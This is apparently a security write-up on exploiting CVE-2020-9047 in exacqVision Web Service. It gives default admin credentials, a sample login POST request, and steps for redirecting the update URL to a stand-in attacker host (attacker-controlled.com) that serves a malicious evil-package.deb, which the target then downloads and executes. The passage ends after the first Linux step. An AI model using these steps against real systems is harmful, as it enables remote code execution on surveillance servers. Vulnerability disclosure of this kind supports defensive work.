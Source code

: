 *Note: I haven't spent time researching the vulnerability in exacqVision Enterprise Manager, but information suggests that all versions (Windows and Linux) prior to 20.06.4.0 are susceptible to the vulnerability*

The general steps required to exploit CVE-2020-9047 in the context of exacqVision Web Service are listed below and are described in more detail in the following section:

1. An attacker successfully authenticates to the Web Service Administration panel found at (by default) `http://www.vulnerable-evws.com/service.web`.
2. Then, from within the exacqVision Web Service Administration panel, the “Updates URL” field is changed from the default value of `http://www.exacq.com/downloads/evFileInfo.txt` to an attacker-controlled destination — for example, `http://attacker-controlled.com/evFileInfo.txt`.
3. An attacker generates/creates a malicious update file (e.g., `evil-package.deb`, as mentioned below) that includes attacker-specfied programs/commands that will be downloaded and installed/executed by the vulnerable target system via the exacqVision Web Service version update functionality.
4. The content within the attacker-controlled `evFileInfo.txt` is changed in such a way that suggests to the remote exacqVision Web Service  upon request of the file, that a valid, recommended exacqVision Web Service version update is available, and that the update is available for download at, for example, `http://www.attacker-controlled.com/evil-package.deb`.
5. The attacker-controlled `evFileInfo.txt` and `evil-package.deb` are hosted at `http://attacker-controlled.com/evFileInfo.txt` and `http://www.attacker-controlled.com/evil-package.deb`, respectively, before the vulnerable "Check For Updates" functionality available within the Web Service Administration panel is leveraged to instruct the vulnerable target to download and install/execute the malicious `evil-package.deb` package file. 

*Note: the process described above and in the following section has not been tested on ARM architecture systems.*

## Exploiting CVE-2020-9047: Linux
The following subsections outline the steps required to manually exploit CVE-2020-9047. In the demonstration/example, the vulnerable service is exacqVision Web Service version 7.8.2.97826 installed/running on a Linux x86 operating system.

Attacking Host:                 10.0.0.11  
exacqVision Web Service Host:   10.0.0.22

For the sake of readability, the content within all HTTP requests/responses in the following subsections have been URL-decoded.

### 1. Authenticating to the Web Service Configuration Panel
Authentication to the Web Service Administration panel is required to access the vulnerable functionalities within the service. As mentioned previously, early versions of exacqVision Web Service on configure a default user name of `admin` with a default password of `admin256` upon installation.

In this example, the login page for the Web Service Administration panel is located at `http:/10.0.0.22/service.web` and can be authenticated to using the default credentials of `admin`:`admin256`. The login process is completed through one `POST` request to `/service.web` with the `action=login&u=admin&p=admin256` form data, as shown in the request below.

```
POST /service.web HTTP/1.1
Host: 10.0.0.22
...
Content-Length: 31
Origin: http://10.0.0.22
Connection: close
Referer: http://10.0.0.22/service.web

action=login&u=admin&p=admin256
```
